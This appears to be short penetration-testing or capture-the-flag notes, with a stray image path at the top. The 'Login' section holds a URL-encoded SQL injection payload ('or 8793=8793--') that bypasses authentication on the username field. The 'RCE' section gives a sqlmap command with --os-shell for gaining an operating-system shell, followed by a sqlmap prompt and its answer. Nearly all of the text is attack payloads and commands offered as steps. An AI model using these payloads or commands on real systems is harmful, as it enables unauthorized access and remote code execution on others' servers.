

____
# Login
Burp scan defined insertion points



```
username=test68108575'%20or%208793%3d8793--%20&password=test
```

```
test68108575' or 8793=8793-- 
```

# RCE

```bash
sqlmap -r test.txt --os-shell
```

you provided a HTTP Cookie header value, while target URL provides its own cookies within HTTP Set-Cookie header which intersect with yours. Do you want to merge them in further requests? [Y/n]

```
n
```
